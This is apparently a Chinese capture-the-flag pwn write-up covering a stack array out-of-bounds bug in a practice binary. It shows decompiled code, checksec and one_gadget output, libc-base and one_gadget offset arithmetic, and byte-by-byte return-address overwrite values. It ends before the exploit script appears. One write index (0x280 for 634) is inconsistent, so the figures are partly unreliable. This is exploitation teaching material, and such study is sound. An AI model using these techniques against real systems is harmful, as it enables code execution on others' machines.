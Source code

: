 int64 fastcall main(__int64 a1, char a2, char a3){ char s; // rsp+0h unsigned __int64 v5; // rsp+108h v5 = __readfsqword(0x28u); setbuf(stdout, 0LL); setbuf(stdin, 0LL); setbuf(stderr, 0LL); memset(&s, 0, 0x100uLL); printf("input your name \nname:", 0LL); read(0, &s, 0x100uLL); while ( (unsigned int)sub_B35() ); return 0LL;} 
_BOOL8 sub_B35(){ int v1; // rsp+4h int v2; // rsp+8h int i; // rsp+Ch char v4[64]; // rsp+10h char s; // rsp+50h unsigned __int64 v6; // rsp+158h v6 = __readfsqword(0x28u); memset(&s, 0, 0x100uLL); memset(v4, 0, 0x28uLL); for ( i = 0; i <= 40; ++i ) { puts("input index"); __isoc99_scanf("%d", &v1); printf("now value(hex) %x\n", (unsigned int)v4[v1]); puts("input new value"); __isoc99_scanf("%d", &v2); v4[v1] = v2; } puts("do you want continue(yes/no)? "); read(0, &s, 0x100uLL); return strncmp(&s, "yes", 3uLL) == 0;} 
pwn@pwn-PC:~/Desktop$ checksec pwn[*] '/home/pwn/Desktop/pwn' Arch: amd64-64-little RELRO: Partial RELRO Stack: Canary found NX: NX enabled PIE: PIE enabled 
 
 ```java 
  又是保护全开，根据程序的代码可以发现存在数组越界漏洞，其中v1可以控制，因为v4这个数组在读取索引的时候没有限制，引发数组越界漏洞，而且代码中分别对数组进行了读和写操作，那么造成栈空间任意地址读写（任意地址读和任意地址写）。由于PIE和canary的存在，所以思路是先泄露栈中的某个返回地址，获取栈中的某些函数(main函数的返回地址__libc_start_main+241)的加载地址，从而计算出libc的基址，进而计算得到onegadget的地址，然后写入返回地址进行ROP即可。
在构造payload之前，先分析一下利用过程。
第一步泄漏main函数的返回地址__libc_start_main+241的地址：0x7ffff7a5a2e1，从而根据偏移拿到libc的基址 0x7ffff7a5a2e1 - 0x201f0 - 241 = 0x7ffff7a3a000。


第二步找到onegadget
选择一个onegadget，根据得到的libc的基址和偏移量计算出onegadget地址，0x7ffff7a3a000 + 0x3f306 = 0x7ffff7a79306。



  ``` 
  
pwn@pwn-PC:~/Desktop$ one_gadget /usr/lib/x86_64-linux-gnu/libc-2.24.so0x3f306 execve("/bin/sh", rsp+0x30, environ)constraints: rax == NULL 
0x3f35a execve("/bin/sh", rsp+0x30, environ)constraints: [rsp+0x30] == NULL 
constraints: [rsp+0x60] == NULL 
 
 ```java 
  那么此时前期工作就做完，之后利用数组溢出泄漏基址，然后利用数组的写入操作进行rop，执行onegadget，整体的分析如下图：


结合前几节学过的知识，发现能够对过程进行简化，我们泄露0x7fffffffcd18 —▸ 0x7ffff7a5a2e1 (__libc_start_main+241) 的地址，只需要泄漏后后三位（因为前面的加载地址都一样）即可



  ``` 
  
查看__libc_start_main+241末尾三个字节：pwndbg> x /3bx 0x7fffffffcd180x7fffffffcd18: 0xe1 0xa2 0xa5 ：0xa5a2e1 
使用后三位字节进行计算：0xa5a2e1- 0x201f0 - 241 = 0xa3a000 ：libc addr0xa3a000 + 0x3f306 = 0xa79306 ｜ onegadget addr 
将onegadget addr进行写入：0x7fffffffcd18 ：0x06 ：v2 = 60x7fffffffcd19 ：0x93 ：v2 = 1470x7fffffffcd1a ：0x7a ：v2 = 122 
写入位置：v4[0x278] ：v1 = 632v4[0x279] ：v1 = 633v4[0x280] ：v1 = 634 
 
 ```java 
  注意在进行printf时，是输出是格式%x，运用了一次MOVSX指令（说明：带符号扩展传送指），因此在exp中需要对输出的内容进行处理，exp如下：



  ``` 
  